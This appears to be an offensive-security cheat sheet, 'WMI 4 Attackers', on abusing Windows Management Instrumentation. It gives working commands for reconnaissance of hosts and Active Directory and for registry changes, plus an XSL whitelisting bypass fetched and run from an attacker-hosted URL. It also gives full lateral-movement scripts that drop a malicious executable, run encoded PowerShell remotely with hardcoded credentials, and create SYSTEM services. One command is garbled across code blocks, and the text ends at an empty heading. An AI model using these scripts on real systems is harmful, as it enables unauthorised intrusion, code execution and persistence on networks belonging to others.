



# WMI 4 Attackers

- [WMI 4 Attackers](#wmi-4-attackers)
  - [WMI 101](#wmi-101)
  - [WMI Components](#wmi-components)
    - [WMI utilities](#wmi-utilities)
    - [Manaed Object Format (MOF) files](#manaed-object-format-mof-files)
    - [Providers](#providers)
    - [Managed Objects](#managed-objects)
    - [Namespaces](#namespaces)
    - [Repository](#repository)
    - [Consumers](#consumers)
    - [Remote WMI Protocols](#remote-wmi-protocols)
      - [DCOM](#dcom)
      - [WinRM / PowerShell Remoting](#winrm--powershell-remoting)
      - [WMI and XSL](#wmi-and-xsl)
  - [WMI with PowerShell](#wmi-with-powershell)
  - [WMI host recon](#wmi-host-recon)
  - [WMI Active Directory Recon](#wmi-active-directory-recon)
  - [WMI Methods](#wmi-methods)
  - [Association classes](#association-classes)
  - [WMI Console (WMIC)](#wmi-console-wmic)
  - [Remote WMI](#remote-wmi)
  - [Registry key manipulation](#registry-key-manipulation)
  - [Recon and information gathering](#recon-and-information-gathering)
  - [Exploitation](#exploitation)
  - [Lateral movement](#lateral-movement)
      - [WMI Attacks – C2 Communication (WMI Class) – “Push” Attack](#wmi-attacks--c2-communication-wmi-class--push-attack)
      - [WMI Attacks – C2 Communication (Registry) – “Pull” Attack](#wmi-attacks--c2-communication-registry--pull-attack)
      - [Command Execution Win32_Service](#command-execution-win32_service)
  - [WMI Persistence](#wmi-persistence)
      - [Malicious WMI providers](#malicious-wmi-providers)
      - [Win32_LocalAdmins provider](#win32_localadmins-provider)
      - [EvilNetConnection WMI Provider](#evilnetconnection-wmi-provider)
      - [EvilWMIProvider (SubTee)](#evilwmiprovider-subtee)
      - [WMI Backdoor](#wmi-backdoor)
      - [MOF files](#mof-files)
      - [WMI Event Subscriptions](#wmi-event-subscriptions)
  - [Resources](#resources)
      - [BlackHat US 2015: Abusing WMI to built a persistent, asyncronous, and fileless backdoor.](#blackhat-us-2015-abusing-wmi-to-built-a-persistent-asyncronous-and-fileless-backdoor)
      - [WMISploit](#wmisploit)
      - [WMI for Script Kiddies](#wmi-for-script-kiddies)
      - [Usefull WMIC queries for host and domain enumeration](#usefull-wmic-queries-for-host-and-domain-enumeration)
      - [Red Team handbook WMI command](#red-team-handbook-wmi-command)
      - [NoLimitSecu French Podcast dedicated to WMI](#nolimitsecu-french-podcast-dedicated-to-wmi)
      - [Andrei Dumitrescu - OCD](#andrei-dumitrescu---ocd)
      - [Backdoor with WMI](#backdoor-with-wmi)

- Lateral movement
- Information gathering
- System modification and process execution
- Backdoors and persistence

## WMI 101
*WMI = Windows Management Instrumentation*  
- https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-architecture

--> Microsoft implementationn of CIM (Common Information Model) and  WBEM (Web Based Enterprise Management).  
--> Provides a uniform interface for applications/scripts to manage a local or remote computer or network.  

*WMIC = Command-Line interface for WMI*



## WMI Components
https://0xinfection.github.io/posts/wmi-classes-methods-part-2/

### WMI utilities
- wmic.exe
- winrm.exe
- wbemtest.exe
- VBScript
- JScript
- IWbem COM API
- .NET System.Management classes

**Linux**
- wmis-pth
- wmic

### Manaed Object Format (MOF) files
Use to define WMI namespaces, classes, provides etc...  

- Stored in ```%WINDIR%\System32\Wbem\``` directory with extension *.mof*
- We can write our own MOF files to expand WMI

### Providers
Generally, provider is associated with every *MOF* file.  
- A provider could be a DLL within ```%WINDIR%\System32\Wbem\``` directory  or could be othe type (Class, Instance, Event, Event Consumer, Method)
- A provider just like a driver, works as a bridge between a managed object and WMI.

--> Provider main function is to provide access to classes.

### Managed Objects
Managed object is the component being managed by WMI like process, service, operating systems etc...  

### Namespaces
Namespaces are crearted by providers and are used to divide classes logically.

Well known namespaces are :
- root\cimv2
- root\default
- root\security
- root\subscription

### Repository
WMI repository is the database used to store static data (definitions) of classes.

- Located in the ```%WINDIR%\System32\Wbem\Repository``` directory  

### Consumers
Applications or scripts which can be used to interact with WMI classes for query of data or to run methods or to subscribe to events.

- PowerShell
- WMIC.exe
- ... 

### Remote WMI Protocols
#### DCOM
- Port 135
- Not firewall friendly
- By default WMI service **Winmgmt** is running and listening on port 135.

Enumerate processes on remote system
```
Get-WmiObject -Class Win32_Process -ComputerName 192.168.2.10 -Credential 'corp.local\admin'
```

#### WinRM / PowerShell Remoting
- SOAP protocl based on the WSMan specification
- 5985 (HTTP) or 5986 (HTTPS)

#### WMI and XSL
- https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl
- https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1220/T1220.md

This can be used to bypass AV solution or Application Whitelisting.

XSL file to be hosted on attacker machine
```
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```

Retrieving and executing wmic command on **victim**
```
wmic os get /FORMAT:"http://192.168.0.10:8000/attacker.xsl"
```

## WMI with PowerShell

Listing WMI providers within PowerShell Version 2 cmdlet:

```
Get-Command -CommandType cmdlet *wmi*

Get-WmiObject : Retrieve instances
Invoke-WmiMethod : Run a method
Register-WmiEvent : Register WMI events
Remove-WmiObject : Remove an object
Set-WmiInstance : Modify the writable property of WMI object
```

PowerShell version 3 provides CIM (Common Information Model) cmdlets which uses WS-MAN and CIM standards to manage objects.
```
Get-Command -CommandType cmdlet *cim*

Cmdlet          Get-CimAssociatedInstance                           1.0.0.0    CimCmdlets
Cmdlet          Get-CimClass                                       1.0.0.0    CimCmdlets
Cmdlet          Get-CimInstance                                    1.0.0.0    CimCmdlets
Cmdlet          Get-CimSession                                     1.0.0.0    CimCmdlets
Cmdlet          Invoke-CimMethod                                   1.0.0.0    CimCmdlets
Cmdlet          New-CimInstance                                    1.0.0.0    CimCmdlets
Cmdlet          New-CimSession                                     1.0.0.0    CimCmdlets
Cmdlet          New-CimSessionOption                               1.0.0.0    CimCmdlets
Cmdlet          Register-CimIndicationEvent                        1.0.0.0    CimCmdlets
Cmdlet          Remove-CimInstance                                 1.0.0.0    CimCmdlets
Cmdlet          Remove-CimSession                                  1.0.0.0    CimCmdlets
Cmdlet          Set-CimInstance                                    1.0.0.0    CimCmdlets
```
--> Use of WS-MAN allows CIM cmdlets to be used against boxes where WMI blocked but WS-MAN (WinRM) is enabled. (even with PSv2 )
 
Listing all namespaces within *root* class
```
PS C:\>  Get-WmiObject -Namespace "root" -Class "__Namespace" 
```
 
Listing all namespaces only select the name property
```
PS C:\>  Get-WmiObject -Namespace "root" -Class "__Namespace" | select name
PS C:\>  Get-CimInstance -Namespace "root" -Class "__Namespace" | select name
```

Listing all namespaces nested into other namespaces, in our case *root* namespace (recursive approach)
```
function Get-WmiNamespace {
    Param (
        $Namespace='root'
    )
    Get-WmiObject -Namespace $Namespace -Class __NAMESPACE | ForEach-Object {
        ($ns = '{0}\{1}' -f $_.__NAMESPACE,$_.Name)
        Get-WmiNamespace $ns
    }
}
```

## WMI host recon 

- Host/OS information: ```ROOT\CIMV2:Win32_OperatingSystem, Win32_ComputerSystem```
- File/directory listing: ```ROOT\CIMV2:CIM_DataFile```
- Disk volume listing: ```ROOT\CIMV2:Win32_Volume```
- Registry operations: ```ROOT\DEFAULT:StdRegProv```
- Running processes: ```ROOT\CIMV2:Win32_Process```
- Service listing: ```ROOT\CIMV2:Win32_Service```
- Event log: ```ROOT\CIMV2:Win32_NtLogEvent```
- Logged on accounts: ```ROOT\CIMV2:Win32_LoggedOnUser```
- Mounted shares: ```ROOT\CIMV2:Win32_Share```
- Installed patches: ```ROOT\CIMV2:Win32_QuickFixEngineering```
- Installed AV: ```ROOT\SecurityCenter[2]:AntiVirusProduct```

List class containing "*bios*" string (by default it will request on root\cimv2 Namespace)
```
Get-WmiObject -Class *bios* -List
```

Get Information regarding the current hardware and system
```
PS C:\> Get-WmiObject -Class win32_bios

SMBIOSBIOSVersion : VMW71.00V.18452719.B64.2108091906
Manufacturer      : VMware, Inc.
Name              : VMW71.00V.18452719.B64.2108091906
SerialNumber      : VMware-f3 4f 09 a3 2f 43 66 1e-1c 27 a6 ad 02 bs dd aa
Version           : INTEL  - 6040000
```

Listing process running and filtering on *explorer.exe*
```
Get-WmiObject -Class Win32_Process -Filter "Name = 'explorer.exe'"
```

Listing specific process running using the *Query* parameter
```
Get-WmiObject -Query "select * from Win32_Process where Name = 'explorer.exe'"
```

Listing Anti-virus product
```
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct
```

Listing folder within a directory
```
Get-CimInstance Win32_Directory -Filter "Name = 'C:\\Windows\\System32'" | Get-CimAssociatedInstance -Association Win32_Subdirectory | select Name
```
```
Get-WmiObject Win32_Directory -filter 'Drive="C:" and Path="\\"' | Format-Table name
```

Listing file with *ini* extension within *C:\\*
```
Get-WmiObject CIM_DataFile -filter 'Drive="C:" and Path="\\Windows\\" and Extension="ini"' | Format-List *
```

Listing Services and state
```
Get-WmiObject -Class win32_service -computer "." -Namespace "root\cimv2" | format-list Name, State
```

Get processor architecture details
```
Get-WmiObject -Class Win32_Processor
```

List current logged accountlist installed patches wmi
```
Get-WmiObject -class Win32_ComputerSystem | Format-List Username
```

List installed security update
```
Get-Wmiobject -Class win32_quickfixengineering
```

List all process with their command line used to start
```
Get-WmiObject -Class "Win32_Process" -ComputerName "." | Format-List -Property CommandLine, Name
``` 

List specific process (cmd.exe) and command line used to start
```
Get-WmiObject -Class "Win32_Process" -ComputerName "." | where {($_.name -eq 'powershell.exe')} | Format-List -Property CommandLine, Name
```

Get-WmiObject -Class Win32_NTEventLogFile -ComputerName $strComputer | Where-Object {$_.LogFileName -eq 'security'}

Path to executables for running services and user runnning services
```
Get-WmiObject -Class Win32_Service | select Name, StartName, PathName
```

Remove WMI objects:  
WMI returns *live*, *editable*, objects so you can for exemple kill a process using WMI.
```
Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "notepad.exe"} | Remove-WmiObject 
```

Searching for file recursively
```
function get-wmifile {
[CmdletBinding()]
param (
 [Parameter(Mandatory = $true)]
 [string]$path,
 [string]$file
)

if ($path.IndexOf('\\') -le 0 ){
  $path = $path.replace('\', '\\')
}

if ($path.IndexOf('*') -ge 0 ){
  $path = $path.replace('*', '%')
}

Write-Verbose -Message "Path to search: $path"

$folders = Get-CimInstance -ClassName Win32_Directory -Filter "Name LIKE '$path'"
foreach ($folder in $folders){
 if ($file) {
   Get-CimAssociatedInstance -InputObject $folder -ResultClassName CIM_DataFile |
   where Name -Like "*$file" |
   Select Name
 }
 else {
   Get-CimAssociatedInstance -InputObject $folder -ResultClassName CIM_DataFile |
   Select Name
 }
}

}
```

```
. ./get-wmifile.ps1
get-wmifile -path 'c:\Windows' -file 'unattend.xml'
```

Get owner of a specific process
```
Get-WmiObject Win32_Process -Filter "name='calculator.exe'" | Select Name, @{Name="UserName"; Expression={$_.GetOwner().Domain+"\"+$_.GetOwner().User}} | Sort-Object UserName, Name
```

Get owner for all process
```
Get-WmiObject Win32_Process | Select Name, @{Name="UserName"; Expression={$_.GetOwner().Domain+"\"+$_.GetOwner().User}} | Sort-Object UserName, Name
```

Detect virtualization
```
Get-WmiObject Win32_BIOS -Filter 'SerialNumber LIKE "%VMware%"'
```

Finding interesting files: Queries all data files on the *C:* that have a name containing *password*.
```
wmic DATAFILE where "drive='C:' AND Name like '%password%'" GET Name,readable,size /VALUE
```

## WMI Active Directory Recon
WMI can be used to get domain object information and realize Active Directory recon and enumeration.  

Listing Domain Users
```
Get-WMIObject -Class Win32_UserAccount -Filter "DOMAIN = 'corp.local'"
```

List classes in the LDAP namespace
```
Get-WmiObject -Namespace root/directory/ldap -List
```

Get Current Domain
```
Get-WmiObject -Namespace root/directory/ldap -Class ds_domain | select -ExpandProperty ds_dc
(Get-WmiObject -Class Win32_ComputerSystem).Domain
```

Get domain policy
```
Get-WmiObject -Namespace root/directory/lda
Get all domain groups
```
```p -Class ds_domain | select DS_lockoutDuration, DS_lockoutObservation, DS_lockoutThreshold, DS_maxPwdAge, DS_minPwdAge, DS_minPwdLength, DS_pwdHistoryLength, DS_pwdProperties
```

Retrieve all member computers and filter only for the Domain Controller
```
Get-WmiObject -Namespace root/directory/ldap -Class ds_computer | Where-Object {$_.ds_userAccountControl -eq 532480} | select ds_cn
```

Get all domain users/groups
```
Get-WmiObject -Class win32_useraccount
Get-WmiObject -Class win32_group
```

Get names of all domain users and groups
```
Get-WmiObject -Class win32_useraccount | select name
Get-WmiObject -Class win32_GroupInDomain | Foreach-Object {[wmi]$_.PartComponent}
```

Get all domain users/groups of another domain with trust relationship
```
Get-WmiObject -Class win32_useraccount -Filter "Domain = 'childone'"
Get-WmiObject -Class win32_GroupInDomain | Where-Object {$_.GroupComponent -match "childone"} | Foreach-Object {[wmi]$_.PartComponent}
```

Get group membership of the domain admins group for the current and all trusted domains
```
Get-WmiObject -Class Win32_GroupUser | Where-Object {$_.GroupComponent -match "Domain Admins"} | Foreach-Object {[wmi]$_.PartComponent}
```

Get group membership for specific user
```
Get-WmiObject win32_GroupUser | Where-Object { $_.PartComponent -match "admin"} | Foreach-Object {[wmi]$_.GroupComponent}
```

## WMI Methods
List all methods within *ROOT\CIMV2*  NameSpace
```
Get-WmiObject * -List | where-object {$_.Methods}
Get-CimClass -MethodName Create*
```

List all methods within by default *ROOT\CIMV2* NameSpace in specific class
```
Get-WmiObject -Class Win32_process -List | select -ExpandProperty Methods
```

List parameters for specific method *Create* within the *Win32_Proces* within *ROOT\Cimv2* NameSpace
```
Get-CimClass -Class Win32_process | select -ExpandProperty CimClassMethods | where name -eq "Create" | select -ExpandProperty Parameters
```

Invoke the previously enumerated method *Create* from *Win32_Process* class with *calc.exe* argument as parameter to pop up calc.exe process.
```
Invoke-WmiMethod -Class Win32_Process -Name create -ArgumentList calc.exe
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList @(calc.exe)
```

## Association classes
https://raw.githubusercontent.com/dfinke/images/master/acn.png

Association classes are relationship between WMI classes which can be used to retrieve information about a managed object which is not available from a single class.

*__RELPATH* property of a WMI class can be used as key to list relationships of this class.
```
Get-wmiobject -class win32_networkadapter | select __RELPATH
Get-WmiObject -Query "Associators Of {Win32_NetworkAdapter.DeviceID=10} where ClassDefsOnly"
 ```

## WMI Console (WMIC)
LOLBAS WMIC  
- https://lolbas-project.github.io/lolbas/Binaries/Wmic/



List process
```
wmic:root\cli> process get name 
```

Create a process
```
wmic:root\cli> process call create calc #Require validation
wmic.exe process call create calc #From CMD or PS shell will not require validation
```

## Remote WMI
All WMI cmdlets support the *-ComputerName* parameter, this can be used for remote operations on remote computers.  
--> Remote operation will require *Administrative privileges*  
--> WMI use 2 protocols to remote connexion (for CIM cmdlest only through CIM sessions )
    - DCOM : Distributed Component Object Model (port 135)
    - WinRM/WsMan : Windows Remote Management (port 5385/HTTP or 5386/HTTPS) -> FireWall and NAT friendly

--> By default WMI use 1 protocol to remote connexion
    - DCOM : Distributed Component Object Model (port 135)

 ```
 Get-WmiObject -Class Win32_OperatingSystem -ComputerName 192.168.2.10 -Credential company.local\jdoe
 ```

```
$sess = New-CimSession -ComputerName 192.168.2.10 -Credential company.local\jdoe
Get-CimInstance -CimSession $sess -ClassName Win32_OperatingSystem 
```

Force DCOM usage
```
$sessionoptions = New-CimSessionOption -Protocol Dcom
$sess = New-CimSession -ComputerName 192.168.2.10 -SessionOption $sessionoptions -Credential company.local\jdoe
Get-CimInstance -CimSession $sess -ClassName Win32_OperatingSystem
```

## Registry key manipulation
https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-tasks--registry

WMI provides a class called StdRegProv for interacting with the Windows Registry.  
--> An important point to note here is that we need to use the root\DEFAULT namespace for working with the registry  
--> We can interact with *Remote* or *Local* box  

List all the methods to play with Registry key from *StdRegProv* class
```
Get-WmiObject -NameSpace root\default -Class StdRegProv -List | Select -ExpandProperty Methods
```

WMI uses constant numeric values to identify different hives in the registry.

| Variable   |      Value      |         Hive         |
|------------|:---------------:|---------------------:|
| $HKCR      |    2147483648   |  HKEY_CLASSES_ROOT   |
| $HKCU      |    2147483649   |  HKEY_CURRENT_USER   |
| $HKLM      |    2147483650   |  HKEY_LOCAL_MACHINE  |
| $HKUS      |    2147483651   |  HKEY_USERS          |
| $HKCC      |    2147483653   |  HKEY_CURRENT_CONFIG |

Also WMI uses different data type, and each data type can be accessed using a particular method in WMI.

| Method   |      Data Type      |         Type value           |   Function    |
|------------|:---------------:|---------------------:|---------------------:
| GetStringValue     |    REG_SZ   |  1   | Returns a string |
| GetExpandedStringValue     |    REG_EXPAND_SZ   |  2   | Returns expanded references to env variables |
| GetBinaryValue      |    REG_BINARY   |  3  | Returns array of bytes |
| GetDWORDValue      |    REG_DWORD   |  4          | Returns a 32-bit number |
| GetMultiStringValue      |    REG_MULTI_SZ   |  7 | Returns multiple string values |
| GetQWORDValue | REG_QWORD | 11 | Returns a 64-bit number |

Enumerating HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
```
Invoke-WmiMethod -Namespace root\default -Class stdregprov -Name EnumKey @(2147483650, "software\microsoft\windows nt\currentversion") | select -ExpandProperty snames, svalues
```
Reading values: Read subkey value *aux* under *DRIVER32* key from HKLM Hive
```
Invoke-WmiMethod -Namespace root\default -Class stdregprov -Name GetStringValue @(2147483650, "software\microsoft\windows nt\currentversion\drivers32", "aux")
```

Using WMI you can set or remove registry key using some methods, but you need to use specific constant as for querying the Registry and validate you have rights to modify a specific key.

Validating we have access to a specific registry item. We would need constants defining the access levels to the key.

| Method   |      Value      |         Function         |
|------------|:---------------:|---------------------:|
| KEY_QUERY_VALUE      |    1   |  Query the values of a registry key   |
| KEY_SET_VALUE      |    2   |  Create, delete, or set a registry value   |
| KEY_CREATE_SUB_KEY     |    4   |  Create a subkey of a registry key  |
| KEY_ENUMERATE_SUB_KEYS     |    8   |  Enumerate the subkeys of a registry key          |
| KEY_NOTIFY     |    16   |  Change notifications for a registry key or for subkeys of a registry key |
| KEY_CREATE      |    32   |  Create a registry key |
| DELETE      |    65536   |  Delete a registry key |
| READ_CONTROL      |    131072   |  Combines the STANDARD_RIGHTS_READ, KEY_QUERY_VALUE, KEY_ENUMERATE_SUB_KEYS and KEY_NOTIFY values |
| WRITE_DAC    |    262144   |  Modify the DACL in the object’s security descriptor |
| WRITE_OWNER      |    524288   |  Change the owner in the object’s security descriptor |

You will first need to check the permission for the key you want to modify, in our case 32 to *KEY_CREATE*
```
Invoke-WmiMethod -Namespace root\default -Class stdregprov -Name CheckAccess @(2147483649, "software\microsoft\windows\currentversion\run", 32)
```
This will return a BGRANTED property within the output: True = Privileges Ok to 32 action (32 = KEY_CREATE)



Usefull scripts:   
- [Registy.ps1](https://github.com/darkoperator/Posh-SecMod/blob/master/Registry/Registry.ps1)
- [Get-Information.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-Information.ps1)
- [Invoke-WmiCommand.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-WmiCommand.ps1)
- [Invoke-SessionGopher.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-SessionGopher.ps1)


## Recon and information gathering
Listing user account present on a system and on the domain with SID.
**Warning**: Because both the Name and Domain are key properties, enumerating Win32_UserAccount on a large network can negatively affect performance.  
```
Get-WmiObject -Class Win32_UserAccount

l
```

To only list local user account using Win32_UserAccount and avoid reaching domain controller you can try the following script.  

**Get-WmiLocalUserAccount.ps1**
```
function Get-WmiLocalUserAccount
{
    <#
    .SYNOPSIS
    Gets a WMI `Win32_UserAccount` object for a *local* user account.
 
    .DESCRIPTION
    Man, there are so many ways to get a user account in Windows. This function uses WMI to get a local user account. It returns a `Win32_UserAccount` object. The username has to be less than 20 characters. We don't remember why anymore, but it's probaly a restriction of WMI. Or Windows. Or both.
 
    You can do this with `Get-WmiObject`, but when you try to get a `Win32_UserAccount`, PowerShell reaches out to your domain and gets all the users it finds, even if you filter by name. This is slow! This function stops WMI from talking to your domain, so it is faster.
 
    .LINK
    http://msdn.microsoft.com/en-us/library/windows/desktop/aa394507(v=vs.85).aspx
 
    .EXAMPLE
    Get-WmiLocalUserAccount -Username Administrator
 
    Gets the local Administrator account as a `Win32_UserAccount` WMI object.
    #>
    [CmdletBinding(SupportsShouldProcess=$true)]
    param(
        [Parameter(Mandatory=$true)]
        [ValidateLength(0,20)]
        [string]
        # The username of the local user to get.
        $Username
    )
    
    Set-StrictMode -Version 'Latest'

    Use-CallerPreference -Cmdlet $PSCmdlet -Session $ExecutionContext.SessionState
    
    return Get-WmiObject Win32_UserAccount -Filter "Domain='$($env:ComputerName)' and Name='$Username'"
}
```

Listing local and domain groups
```
Get-WmiObject -Class Win32_Group
```

Create shadow copy of C: Drive
```
(Get-WmiObject -Class Win32_ShadowCopy -List).create("C:\", "ClientAccessible")
```

Create a symlink for the created shadow copy
```
$link = (Get-WmiObject -Class Win32_ShadowCopy).DeviceObject + "\"
cmd /c mklink /d C:\shadowcopy "$link"
```

## Exploitation
Extracts and decrypts saved session information for software typically used to access Unix systems. [Invoke-SessionGopher.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-SessionGopher.ps1)


## Lateral movement

#### WMI Attacks – C2 Communication (WMI Class) – “Push” Attack
- https://github.com/mattifestation/WMI_Backdoor
  
**First Step** - Push file contents to remote WMI repository
```
# Prep file to drop on remote system
$LocalFilePath = 'C:\Users\lutz\Documents\maliciousfile.exe'
$FileBytes = [IO.File]::ReadAllBytes($LocalFilePath)
$EncodedFileContentsToDrop = [Convert]::ToBase64String($FileBytes)
# Establish remote WMI connection
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'Administrator'
$Options.Password = 'user'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
$Connection.Path = '\\192.168.2.10\root\default'
$Connection.Options = $Options
$Connection.Connect()
# "Push" file contents
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
$EvilClass['__CLASS'] = 'Win32_EvilClass'
$EvilClass.Properties.Add('EvilProperty', [Management.CimType]::String, $False)
$EvilClass.Properties['EvilProperty'].Value = $EncodedFileContentsToDrop
$EvilClass.Put()
```

**Second Step** - Drop file contents to remote system
```
$Credential = Get-Credential 'CORP.local\admin'
$CommonArgs = @{
Credential = $Credential
ComputerName = '192.168.2.10'
}
$PayloadText = @'
$EncodedFile = ([WmiClass] 'root\default:Win32_EvilClass').Properties['EvilProperty'].Value
[IO.File]::WriteAllBytes('C:\reconstructedMaliciousFile.exe', [Convert]::FromBase64String($EncodedFile))
'@
$EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($PayloadText))
$PowerShellPayload = "powershell -NoProfile -EncodedCommand $EncodedPayload"
# Drop it like it's hot
Invoke-WmiMethod @CommonArgs -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
# Confirm successful file drop
Get-WmiObject @CommonArgs -Class CIM_DataFile -Filter 'Name = "C:\\reconstructedMaliciousFile.exe"'
```


#### WMI Attacks – C2 Communication (Registry) – “Pull” Attack
**First Step** - Registry Key creation
```
$Credential = Get-Credential 'CORP.local\admin'
$CommonArgs = @{
Credential = $Credential
ComputerName = '192.168.2.10'
}
$HKLM = 2147483650
Invoke-WmiMethod @CommonArgs -Class StdRegProv -Name CreateKey -ArgumentList $HKLM,
'SOFTWARE\EvilKey‘
Invoke-WmiMethod @CommonArgs -Class StdRegProv -Name DeleteValue -ArgumentList $HKLM,
'SOFTWARE\EvilKey', 'Result'
```

**Second Step** - Retrieving payload in registry
```
$PayloadText = @'
$Payload = {Get-Process lsass}
$Result = & $Payload
$Output = [Management.Automation.PSSerializer]::Serialize($Result, 5)
$Encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Output))
Set-ItemProperty -Path HKLM:\SOFTWARE\EvilKey -Name Result -Value $Encoded
'@
$EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($PayloadText))
$PowerShellPayload = "powershell -NoProfile -EncodedCommand $EncodedPayload"
Invoke-WmiMethod @CommonArgs -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
$RemoteOutput = Invoke-WmiMethod @CommonArgs -Class StdRegProv -Name GetStringValue -
ArgumentList $HKLM, 'SOFTWARE\EvilKey', 'Result'
$EncodedOutput = $RemoteOutput.sValue
$DeserializedOutput =
[Management.Automation.PSSerializer]::Deserialize([Text.Encoding]::Ascii.GetString([Convert]::F
romBase64String($EncodedOutput)))
```


#### Command Execution Win32_Service
We can create a service on a remote machine using WMI to execute commands and scripts.  
```
$SericeType = [byte] 16
$ErrorControl = [byte] 1

Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false, "Windows Performance", $ErrorControl, $null, $null, "WinPerf", "C:\Windows\System32\calc.exe", $null, $ServiceType, "Manual", "NT AUTHORITY\SYSTEM", ""
```

Start the previously created service
```
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Invoke-WmiMethod -Name StartService
```

## WMI Persistence
#### Malicious WMI providers
Attacker can create custom malicious WMI providers in order to backdoor a system.

- https://gist.github.com/TheWover/4272ea5829d7f6b22fadaeb8aee3229a
- https://gist.github.com/nicholasmckinney/6309dbd6d3a1aed04f1350e1a685916d
- https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider

#### Win32_LocalAdmins provider
Creates a class called Win32_LocalAdmins in hte **root\cimv2** namespace which can be used to list all local administrators.
- https://github.com/rzander/LocalAdmins

#### EvilNetConnection WMI Provider
- https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider
  
WMI provider which when installed provides ability to execute PowerShell command with SYSTEM privileges.  
- Needs elevated privileges to be installed
- PowerShell.exe is **not** used to execute the payload

#### EvilWMIProvider (SubTee)
- https://gist.github.com/TheWover/4272ea5829d7f6b22fadaeb8aee3229a

#### WMI Backdoor
- https://github.com/mattifestation/WMI_Backdoor

#### MOF files
